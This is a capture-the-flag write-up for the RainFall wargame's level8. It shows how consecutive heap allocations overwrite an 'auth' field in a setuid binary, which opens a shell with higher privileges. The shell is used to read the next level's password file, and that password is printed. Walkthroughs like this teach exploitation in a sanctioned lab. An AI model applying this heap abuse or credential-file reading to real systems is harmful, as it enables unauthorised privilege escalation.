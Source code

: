 <p align="justify">

level8 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
```

level8 rights:
```Shell
level8@RainFall:~$ ls -la level8 
-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8
```

Decompiling with Hex-Rays on https://dogbolt.org/ shows four things:
- `fgets` takes keywords that have different purposes
- `auth` initialises an `auth` variable with a `malloc()`
- `service` initiliases a `service` variable with `strdup()`
- the keyword `login` opens a shell if auth[32] is different from 0

The goal is therefore to modify the value at auth[32] to access the shell. 32 is auth + 8, casted as a DWORD (4bytes).
When you launch the program, it prints our `auth` and `service` variables address.
```Shell
level8@RainFall:~$ ./level8
(nil), (nil)
```

Initialising them with random values allow us to see that they are next to each other on the heap.
```Shell
level8@RainFall:~$ ./level8
(nil), (nil) 
auth coucou
0x804a008, (nil) 
service 1
0x804a008, 0x804a018 
```
Doing the address of `service 1`(0x804a018) - `auth coucou`(0x804a008) = 16, which means that if we add another `service`, we reach 32.

Then we can finally call `login` to get the password.
```Shell
service 2
0x804a008, 0x804a028
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

</p>